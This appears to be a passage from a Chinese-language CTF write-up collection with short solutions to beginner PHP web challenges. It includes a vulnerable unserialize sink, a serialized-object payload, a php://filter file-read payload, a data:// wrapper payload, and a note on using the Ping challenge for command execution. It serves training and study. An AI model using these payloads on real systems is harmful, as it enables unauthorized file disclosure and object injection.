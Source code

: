 ```
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```
绕过wakeup
```
 <?php
class HaHaHa{
        public $admin;
        public $passwd;
    }

$a=new HaHaHa;
$a->admin="admin";
$a->passwd="wllm";
echo(serialize($a));
```
payload：
`O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}`
##  [SWPUCTF 2021 新生赛]PseudoProtocols  
![e61e9f7fe5492b747b3e2b5db6ed8663.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706098240655-ba8ed227-2132-4f93-895e-6ba5f772707e.png#averageHue=%23f6f4f3&clientId=u18695db6-cf88-4&from=paste&height=52&id=ue96ace8a&originHeight=65&originWidth=468&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2167&status=done&style=none&taskId=ue48b5f7d-aac0-4a52-909e-fd945f02634&title=&width=374.4)
伪协议读一下hint.php地址
payload：php://filter/read=convert.base64-encode/resource=hint.php
![526713c1986a40a94b65c22b586d3a4a.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706098327217-4e6d4ded-2d7f-4fb7-b6b3-c9bea9e2562d.png#averageHue=%23fcfcfc&clientId=u18695db6-cf88-4&from=paste&height=474&id=u981a5bc8&originHeight=593&originWidth=576&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=10456&status=done&style=none&taskId=u1387a58f-1a11-4112-9585-01a3dcd4572&title=&width=460.8)
进入下一层
```
 <?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?> 
```
伪协议输入
payload：?a=data://text/plain,I want flag
##  [LitCTF 2023]Ping  
输入非ip内容会弹窗，禁js即可正常使用命令得到flag
##  [GDOUCTF 2023]EZ WEB  
![c225644a9334fa04b8b41f26d031fc30.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706263779863-6186b0eb-b32d-43df-bd85-ee01a55cbed7.png#averageHue=%23e0e1aa&clientId=udf5974cd-463d-4&from=paste&height=131&id=uf2cc6656&originHeight=164&originWidth=524&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=6136&status=done&style=none&taskId=u9629f830-8856-44ce-b5be-297f626632f&title=&width=419.2)
看源码有提示路径
![ffec692844e0d044254f3bb66fad34e3.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706263805883-c69d2758-c210-4472-8d93-308ab1630f77.png#averageHue=%23fcfbfa&clientId=udf5974cd-463d-4&from=paste&height=298&id=u2c37a69d&originHeight=373&originWidth=710&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27170&status=done&style=none&taskId=u85d7266a-c1f7-4c44-a5ff-9c6c74784f2&title=&width=568)
按第三条put到路径得到flag
![a476befbc1d57cece68d93cab271ca73.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706263852076-f4b03c0a-abea-4398-a700-34d4abb15446.png#averageHue=%2347a73b&clientId=udf5974cd-463d-4&from=paste&height=362&id=u51ab6236&originHeight=453&originWidth=614&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26183&status=done&style=none&taskId=uc5e8a47b-08a5-43d6-b9d8-75c1699be13&title=&width=491.2)
